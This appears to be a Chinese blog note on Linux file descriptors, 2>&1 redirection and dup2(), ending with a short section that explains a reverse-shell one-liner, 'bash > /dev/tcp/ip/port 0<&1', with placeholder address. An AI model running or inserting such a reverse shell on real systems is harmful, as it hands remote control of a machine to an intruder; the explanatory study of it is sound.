




> I/O重定向基础知识为文件描述符


文件描述符是文件描述表的下标，文件描述表中存的指向文件结构体的指针。
```
struct fd { 
     struct file *file;//指向文件表的指针 
     unsigned int flags; 
    };
```
而standin，standout，standerr就是三个FILE *指针
```
FILE* stdin
FILE* stdout
FILE* stderr
```
上述代码对应上表，`unsigned int flags; `就是`fd flags`，而`file *file`则是`file ptr`，而在linux里，`flags`只有一个值`close-on-exec`，即`FD_CLOEXEC`
## 重定向
```
2>&1
```
在重定向前，是这样的：

重定向之后，是这样的：

这是因为`2>&1`是通过`dup2()`这个系统调用实现的。
**int dup2(int oldfd, int newfd); **:
```
dup2() create a copy of the file descriptor oldfd. After a successful return from dup() or dup2(), the old and new file descriptors may be used interchangeably. They refer to the same open file description (see open(2)) and thus share file offset and file status flags; for example, if the file offset is modified by using lseek(2) on one of the descriptors, the offset is also changed for the other.
```
`dup2()`和`dup()`都是复制一个现存的文件描述符(新的复制老的)，然后指向相同的文件结构体，但是flags不同，因为新的上会被关闭。
> 这儿关于dup2()的实现推荐一个文章[Linux内核分析：dup、dup2的实现](https://www.cnblogs.com/lit10050528/p/6206235.html)，源码非常清楚了，把老的指针复制(赋值)给新的

找到一个非常漂亮的图

## 反弹bash
```
bash > /dev/tcp/ip/port 0<&1
```
先是`standout`重定向到`/dev/tcp/ip/port`，接着`standin`的再被复制成`standout`
> 这儿说的standin,standout并非是指针，而是0,1的默认名称
|Handle|Name|Description|
| - | - | - |
|0|stdin|标准输入|
|1|stdout|标准输出|
|2|stderr|标准错误输出|